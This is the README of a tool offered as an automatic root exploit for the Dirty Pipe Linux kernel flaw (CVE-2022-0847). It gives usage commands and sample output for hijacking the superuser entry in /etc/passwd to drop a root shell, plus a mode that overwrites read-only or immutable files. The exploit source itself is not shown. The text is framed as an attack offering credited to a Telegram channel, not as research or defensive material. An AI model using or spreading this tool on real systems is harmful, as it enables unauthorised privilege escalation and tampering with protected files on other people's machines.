 # Dirty Pipe automatic root exploit
## CVE-2022-0847

## Dependencies:
- **Python 3.10 or above**

![eae](assets/poc.gif)

## How to use:
### Automatic root:
```
$ python3.10 dirtyPipe.py -a
[+] hjacking super user in /etc/passwd
[+] dropipng shell
#  
```

### Write a no write permission, immutable or read-only mounted file:
```
$ python3.10 dirtyPipe.py -e FILE OFFSET DATA
```

#### An oferring from [**@terabitSec 🦜**](https://t.me/terabitSec).